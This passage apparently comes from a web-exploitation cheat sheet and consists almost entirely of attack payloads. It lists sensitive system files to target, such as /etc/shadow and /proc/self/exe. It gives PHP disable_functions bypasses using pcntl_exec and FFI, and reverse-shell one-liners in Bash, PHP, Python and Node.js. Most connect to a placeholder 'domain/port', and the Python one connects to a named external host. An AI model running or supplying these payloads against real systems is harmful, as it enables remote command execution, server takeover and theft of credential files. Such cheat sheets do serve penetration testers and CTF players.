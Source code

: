 <span style="color:#21C587">&#35;</span><strong> Ubuntu</strong><br>
```
/etc/passwd
/etc/issue
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/proc/self/exe
/proc/net/arp
/proc/net/route
```

<span style="color:#21C587">&#35;</span><strong> Node</strong><br>
```
package.json
```

---
## disable_functions bypass

```php
<?php pcntl_exec('/bin/bash',['-c','ls']);?>
```

```php
PHP Version : 7.4.X 
Condition   : FFI Enable
<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'ls\');?>
```

---
## Reverse Shell<br>
<span style="color:#21C587">&#35;</span><strong> Bash</strong><br>
```
bash -i >& /dev/tcp/domain/port 0>&1
bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'
0<&196;exec 196<>/dev/tcp/domain/port; sh <&196 >&196 2>&196
```

<span style="color:#21C587">&#35;</span><strong> PHP</strong><br>
```php
php -r '$sock=fsockopen("domain",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<span style="color:#21C587">&#35;</span><strong> Python</strong><br>
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<span style="color:#21C587">&#35;</span><strong> Node.js</strong><br>
```javascript
var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(port, "domain", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});

require('child_process').exec("bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'");
```
